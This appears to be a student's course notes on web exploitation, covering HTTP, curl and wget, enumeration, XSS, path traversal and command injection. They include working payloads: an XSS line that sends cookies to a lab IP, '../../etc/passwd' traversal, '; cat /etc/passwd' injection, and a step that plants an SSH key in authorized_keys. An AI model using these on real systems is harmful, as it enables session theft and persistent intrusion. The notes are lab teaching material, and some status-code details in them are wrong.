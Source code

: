 # Web Exploitation - Day 1
SERVER/CLIENT RELATIONSHIP
  - Synchronous communications between user and services. All data is not returned, client only receives what is allowedSynchronous communications between user and services

All data is not returned, client only receives what is allowed
  
HYPERTEXT TRANSFER PROTOCOL (HTTP)
  - Request/Reply
    - Various tools to view; tcpdump, wireshark, dev console
    - `GET / HTTP/1.1`
    - `HTTP/1.1 200 OK`
      - HTTP METHODS
        - **GET**
          - GET request may be used to pass data to the server through the URL
        - HEAD
        - **POST**
        - PUT 
      - HTTP RESONSE CODES
        -  10X == Informational
        -  2XX == Success
        -  30XX == Redirection
        -  4XX == Client Error
        -  5XX == Server Error

WGET
  - Recursive Download, recover from broken transfers, SSL/TLS support
  - `wget -r -l2 -P /tmp ftp://ftpserver/` - (-l2): two layers deep, (-P): can save it to directory thats not CWD
  - `wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' http://website` - post request
  - `wget --load-cookies cookies.txt -p http://....com/interesting/article.php`

CURL
  - Not recursive, can use pipes, upload ability
  - supports more protocols vs WGET such as SCP, POP3
  - `curl -o stuff.html http://website/stuff.html`
  - `curl 'www..com' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png`
    - -H is header, creating http header

HTML
  - Standardized markup language for browser interpretation of web pages
    - Client side interpretation (web browser)
    - Utilizes elements which are identified by tags
    - Typical refers another "page" for server side interaction
    - Cascading Stylesheet (CSS) for page theme

JavaScript
  - Allows websites to interact with the client
    - JavaScript runs on the client's machine
    - Coded as .js files or in line with html 

Enummeration
  - Robots.txt
    -  file is utilized by website owners to communicate what file and directory paths web robots (web crawlers) should index
  - Legitimate surfing
  - Tools: NSE scripts, nikto, Burp suite
    - nikto -h x.x.x.x

Cross-Site Scripting (XSS)
  - Insertion of arbitrary code into a web page that executes in the browser of visitors
  - Unsanitized GET, POST, and PUT methods allow JS to operate on websites
  - It is often found in forums that allow HTML
  - ***have to verify that cross-site scripting is even possible***
    - Reflected XSS
      - most common form of XSS
    - Stored XSS
      - relies on vulnerable site
      - only requires user visit page
      - `<img src="http://10.50.XX.XX" onerror="window.open(&quot;http://10.50.CC.CC:8000/ram.png&quot;,&quot;xss&quot;,'height=500,width=500');">`
      - have to proof of concept make sure there is javascript to XSS
        -  `<script>alert('XSS')</script>` - maybe use double quotes
          - put this in a field that looks like its vulnerable to cross site scripting  
          - `<script>document.location="http://10.50.22.27/uploads/cookie_stealer.php?username=+document.cookie;</script>`

Server-Side Injection
  - Directory Traversal/Path Traversal
    -  Ability to read/execute outside web server’s directory
    - uses ../../ (absolute paths) in manipulating variables
      - `view_image.php?file=../../etc/passwd`
        - can add as many `./../../../../`to test whereasfh;AFH
  - Site allows unsanitized file uploads
    - Server doesn’t validate extension or size
    - Allows for code execution → shell
    - Once uploaded, find your file, call your file

Command Injection
  - if unable to get webshell
  - Application on the server is vulnerable by allowing execution of arbitrary data.
    - Again, user input not validated
    - SOHO router with a web page to do ping
      - To test:
        - `; cat /etc/passwd
        - `; whoami`
      - now can 
        - `; ls`

generating new ssh keys 

`ssh-keygen -t rsa -b 4096`

`enter enter enter`

`cat ~/.ssh/id_rsa.pub`

`>>var/www/.ssh/authorized_keys`

`; echo "ssh-keygen balshkgoiheg" >> /var/www/.ssh/authorized_keys











































  
